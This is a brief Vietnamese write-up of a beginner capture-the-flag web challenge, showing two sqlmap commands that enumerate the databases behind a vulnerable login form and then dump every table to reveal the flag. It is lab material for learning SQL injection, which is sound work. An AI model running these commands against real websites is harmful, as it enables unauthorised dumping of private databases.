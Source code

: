 # Hackerspace 2 - VGU Cypher CTF for beginner

- Write-up by [Qân](https://github.com/CallMeQan)
- Thuộc phần **Web Exploitation**

## Đánh giá

- Như bài `Hackerspace 1`, cũng là trang web đó, nhưng giờ chúng ta cần tìm database chứa flag

## Solution

- Trong bài này ta sẽ dùng [sqlmap](https://sqlmap.org/) để dò tìm cái flag do ta biết từ bài 1 là trang web bị lỗ hổng SQL Injection

- **Bước 1**: tải sqlmap về
- **Bước 2**: chạy lệnh

```shell
python3 sqlmap.py -u http://ctf.vgucypher.id.vn:3002/login.php --form --dbs --batch
```

- Output sẽ là:

![alt text](image-1.png)

- Ta biết được database cần tìm là `hackerspace`, sau đó chạy lệnh

```shell
python3 sqlmap.py -u http://ctf.vgucypher.id.vn:3002/login.php -D hackerspace --dump-all --batch --forms
```

=> **Nguyên cái flag trước mặt luôn**
